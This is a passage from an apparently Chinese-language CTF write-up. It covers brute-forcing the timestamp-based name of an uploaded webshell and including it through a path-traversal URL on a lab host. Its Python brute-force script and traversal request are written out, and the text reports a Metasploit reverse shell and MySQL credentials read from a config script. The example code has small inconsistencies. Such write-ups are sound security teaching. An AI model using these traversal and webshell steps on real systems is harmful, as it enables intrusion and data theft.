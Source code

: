 </div>
&emsp;&emsp;我们要找出真正的文件名，就需要知道`time()`的值，然后枚举`1~100`叠加上去。而`time()`是我们上传的时间的`unix时间戳`，而且要注意是`date_default_timezone_set("PRC")`。

&emsp;&emsp;所以在即将上传前，我们获取一下当前的`unix时间戳`，如：
```php
<?php
date_default_timezone_set("PRC");
$file_true_name = '-webshell';
$file_true_name = time();
echo $file_true_name;
?>
```
&emsp;&emsp;得到：`1521017320`，然后我们写个python脚本暴力跑一下：
```python
# -*- coding:utf-8 -*-

import requests
time = 152101732000
url = 'http://192.168.187.133/index.php?action=../../../../app/adminpic/-haha{}.jpg'
for i in range(10000):
    tmp = time + i
    ul = url.format(tmp)
    html = requests.get(ul).status_code
    if html == 200:
        print(ul)
        break
```
&emsp;&emsp;这里需要注意的是我们的初始值是：`152101732000`，它比时间戳多了`两位`，这是因为时间戳的后面还有`rand(1,100)`，所以我们要考虑进去。

&emsp;&emsp;跑了一会结果就出来了：`http://192.168.187.133/index.php?action=../../../../app/adminpic/-meter152101732256.jpg`，访问后可以看到页面返回正常。并且在`msf`里可以看到shell已经反弹回来。
<div align="center">
    <img src="/images/posts/n1ctf/55.png" />  
</div>

### 拿到flag
&emsp;&emsp;查看了一下文件，并没有发现`flag`文件。所以，flag应该在数据库中。然后发现了系统的配置脚本`run.sh`。里面暴露了`mysql`的账号密码，我们登陆`mysql`然后查询一下。sql语句如下：
```
use flag;
select * from flag;
```
&emsp;&emsp;可以看到flag已经出来了。
<div align="center">